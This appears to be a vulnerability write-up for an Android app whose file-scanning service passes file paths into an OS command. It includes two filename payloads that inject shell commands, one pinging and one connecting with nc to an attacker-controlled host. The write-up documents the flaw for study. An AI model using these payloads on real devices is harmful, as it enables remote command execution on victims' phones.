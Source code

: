 # Analysis
1. The application is running service that do loop through all files in external storage every 6 seconds and called `scanFile`.
![Loop files](images/loop%20all%20file%20external%20storage.png)

2. The file hash sha1 is being checked using function `scanFile`, this function is used the full path of the file in os command.
![Vulnerable code](images/vulnerable%20code.png)

3. By creating malicious filename in external storage, we able to gain remote code execution using this payload.
```sh
touch "zzz & ping -c 5 192.168.188.200 &"
touch "zzz & nc 192.168.188.200 8002"
```

# Exploitation
1. First time run the application, the app will asking permission to allow access manages all files.
![Ask for permission](images/app%20asking%20permission.png)

2. We create malicious filename in `/storage/emulator/0/Download/`
![create malicious filename](images/created%20malicious%20filename.png)

3. Setup listener.
- tcpdump

   ![tcpdump setup](images/setup%20tcpdump.png)
- nc

   ![nc setup](images/setup%20nc%20listener.png)

4. IP information for hosts and android (victim)
- Hosts:
![hosts ip](images/ifconfig%20hosts.png)
- Android (Victim):
![victim ip](images/android%20devices%20ip.png)

5. Toggle the button to run the service

   ![Enabling services](images/toggle%20enable%20scanner.png)

6. The service is do loop through all files in external storages.
![malicious filename is runned](images/log%20loop%20all%20file.png)

7. We got connection from the android.
- tcpdump (received icmp packet)

   ![received icmp](images/ping%20received.png)
- nc (received connection)

   ![received connection](images/nc%20received%20connection.png)
